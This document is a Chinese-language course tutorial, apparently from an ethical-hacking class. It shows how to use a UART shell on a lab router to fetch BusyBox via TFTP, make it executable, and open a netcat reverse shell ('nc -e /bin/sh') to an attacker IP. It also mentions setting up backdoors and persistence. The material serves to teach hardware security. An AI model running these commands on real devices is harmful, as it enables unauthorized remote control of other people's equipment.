# Udemy - Ethical Hacking：50-Day Hacker Challenge：50 Real Attacks：第50课 第5节：硬件攻击 – UART – 向设备注入数据 [活靶 - 路由器] 🔧


在本节课中，我们将一起学习如何通过UART硬件接口，向目标路由器设备注入数据。本课是硬件安全领域的实战环节，使用一台真实路由器作为活靶，演示如何把攻击机上的文件传输到设备内部，并尝试建立反向连接。课程会带你逐步完成文件下载、目录创建、权限修改以及反弹shell的搭建，让你理解嵌入式设备中UART利用的基本思路。

## 一、明确本次实验的目标



首先，我们要搞清楚本次练习到底想要完成什么。上一节内容可能涉及从设备中把敏感文件拷贝到笔记本电脑，而本节则是相反的操作，我们要把本地的数据或文件推送到目标设备中去。这就是“向设备注入数据”的核心含义。







## 二、准备并下载所需文件



目标明确之后，接下来要准备好实验需要用到的工具文件。以下是本次实验需要下载的核心文件：



- BusyBox完整版二进制文件：用于在设备上提供比原生shell更完整的命令集。
- 目标设备的固件或映射文件：对应小端序架构的相关二进制资源。

下载文件时，可以使用wget工具把资源从远程服务器拉到本地。操作命令如下所示：

```
wget <文件下载链接>
```



下载完成后，建议把文件放到/tmp目录或者其他临时路径中，这样后续传输到设备时会比较方便。这一步的目的就是确保我们手边有可用的工具，准备好推送到路由器里。



## 三、在设备上创建工作目录

文件准备好了，下一步要在路由器上找一个地方来存放这些文件。不过这里有个现实问题，设备上的很多分区可能默认是只读的，不能随意创建新文件。我们需要先确认当前的访问权限，找到一个真正可以写入的位置。

以下是创建目录的常见操作步骤：

- 使用mkdir命令在设备上创建新文件夹。
- 如果当前分区不可写，需要寻找其他可写挂载点，例如/dev/pts下的某个临时目录。

创建好文件夹之后，我们就有了一个可以放置传输文件的落脚点，为后续的文件推送做好准备。


## 四、通过TFTP将文件传输到路由器





目录创建完成之后，就要把文件从攻击机发送到路由器里面了。这里使用TFTP协议进行传输，TFTP是一种简单的文件传输协议，非常适合在嵌入式设备和路由器上使用。我们需要知道攻击机的IP地址，原文中使用的地址是192.168.1.3，这意味着我们要从这个地址去下载文件。


以下是传输文件的典型命令示例：

```
tftp -g -r busybox 192.168.1.3
```



执行这条命令后，文件就会被下载到我们在设备上创建的那个文件夹里。传输完成之后，我们就可以在路由器本地看到这个二进制文件了，接下来就要给它赋予运行权限。



## 五、修改文件权限并准备执行

文件顺利传输到了设备上，但默认情况下它可能还没有执行权限，无法直接运行。我们需要使用chmod命令修改权限，通常会把权限设置为777，这样任何用户都能执行这个文件。

相关命令如下所示：

```
chmod 777 busybox
```

设置完权限之后，我们就可以使用这个功能更齐全的BusyBox来运行原本设备里没有的命令。原生的受限shell可能连man命令都没有，但有了BusyBox之后，很多常用工具都能派上用场。

## 六、使用Netcat建立反弹shell

有了功能完整的工具之后，最关键的一步来了，也就是建立反向连接。我们可以在攻击机上开启一个监听端口，然后让路由器主动连回来，从而获得对设备的控制权。

以下是建立反弹shell的主要操作步骤：

1. 在攻击机上启动netcat监听：
   ```
   nc -lvp <端口号>
   ```



2. 在路由器上执行反弹命令，让设备连回攻击机：
   ```
   /tmp/busybox nc -e /bin/sh 192.168.1.3 <端口号>
   ```

连接建立成功之后，攻击机就会收到路由器返回的交互式shell提示符。这意味着我们已经在设备上建立了后门，可以在里面执行任意命令，进一步挖掘敏感信息或者植入持久化访问权限。

## 七、验证攻击结果

反弹shell建立之后，我们需要确认攻击是否真的生效。此时你应该能在攻击机的终端里看到路由器返回的命令行界面，这说明我们已经拿到了设备的控制权。通过这个通道，攻击者可以绕过很多软件层面的限制，直接在底层硬件接口上操作目标设备。



## 总结




本节课中，我们一起学习了如何利用UART接口向路由器设备注入数据。整个过程包括下载BusyBox二进制文件、在设备上创建临时目录、通过TFTP传输文件、修改执行权限，以及使用Netcat建立反弹shell。从这个实战演示可以看出，硬件调试接口往往是嵌入式设备的薄弱环节，攻击者可以通过物理访问或UART串口绕过很多软件防护。希望这篇教程能帮助你理解硬件安全的基本思路，并掌握向设备注入数据的实操方法。
